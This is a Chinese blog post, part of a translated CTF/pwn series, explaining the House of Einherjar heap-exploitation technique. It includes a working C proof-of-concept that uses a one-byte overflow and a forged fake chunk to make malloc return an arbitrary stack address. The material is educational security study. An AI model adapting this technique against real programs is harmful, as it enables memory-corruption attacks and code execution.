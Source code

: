 ```yaml
---
title: Heap Exploitation系列翻译-16 House of Einherjar
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```

# House of Einherjar

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这个house并不是"The Malloc Maleficarum"的一部分. 这项堆漏洞技术是由[Hiroki Matsukuma](https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606)于2016年提出. 这项攻击也是围绕着利用'malloc'来返回一个附近的任意指针. 和其他攻击不同, 它只要求1字节的溢出即可实现. 有许多1字节溢出的软件漏洞, 但大多是著名的["off by one"](https://en.wikipedia.org/wiki/Off-by-one_error)错误. 它覆写内存中next chunk的'size并清除了`PREV_IN_USE`标志为零, 当然也会向`prev_size`(已经在前一个堆块的数据域)覆写一个伪造的大小. 当next chunk被释放, 它会发现它前一个堆块是空闲状态并尝试通过内存中'我们之前伪造的大小'作偏移来合并堆块. 伪造大小是精心计算的因此合并后的堆块的范围在伪造堆块处截止, 这可以被后续的malloc所返回

考虑以下示例代码(下载完整版本 [这里](/files/heap-exploition/files/house_of_einherjar.c)):

```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[32];               // padding
};

struct chunk_structure *chunk1, fake_chunk;     // fake chunk is at 0x7ffee6b64e90
size_t allotedSize;
unsigned long long *ptr1, *ptr2;
char *ptr;
void *victim;

// Allocate any chunk
// The attacker will overflow 1 byte through this chunk into the next one
ptr1 = malloc(40);                              // at 0x1dbb010

// Allocate another chunk
ptr2 = malloc(0xf8);                            // at 0x1dbb040

chunk1 = (struct chunk_structure *)(ptr1 - 2);
allotedSize = chunk1->size & ~(0x1 | 0x2 | 0x4);
allotedSize -= sizeof(size_t);      // Heap meta data for 'prev_size' of chunk1

// Attacker initiates a heap overflow
// Off by one overflow of ptr1, overflows into ptr2's 'size'
ptr = (char *)ptr1;
ptr[allotedSize] = 0;      // Zeroes out the PREV_IN_USE bit

// Fake chunk
fake_chunk.size = 0x100;   // enough size to service the malloc request
// These two will ensure that unlink security checks pass
// i.e. P->fd->bk == P and P->bk->fd == P
fake_chunk.fd = &fake_chunk;
fake_chunk.bk = &fake_chunk;

// Overwrite ptr2's prev_size so that ptr2's chunk - prev_size points to our fake chunk
// This falls within the bounds of ptr1's chunk - no need to overflow
*(size_t *)&ptr[allotedSize-sizeof(size_t)] =
                                (size_t)&ptr[allotedSize - sizeof(size_t)]  // ptr2's chunk
                                - (size_t)&fake_chunk;

// Free the second chunk. It will detect the previous chunk in memory as free and try
// to merge with it. Now, top chunk will point to fake_chunk
free(ptr2);

victim = malloc(40);                  // Returns address 0x7ffee6b64ea0 !!
```

注意以下事项:

1. 第二个堆块的大小为`0xf8`, 这只是确保了堆块的真实大小的最低有效字节为`0`(忽视标志位). 因此, 我们可以轻松的在不改变堆块大小的情况下设置`prev_in_use`位为`0`.
2. `allotedSize`减去了`sizeof(size_t)`, `allotedSize`等于完整堆块的大小. 这是因为当前堆块的`size`和`prev_size`不可用, 但是next chunk的`prev_size`可用.
3. 伪堆块的前向后向指针都经过调整, 以通过`unlink`的安全检查.
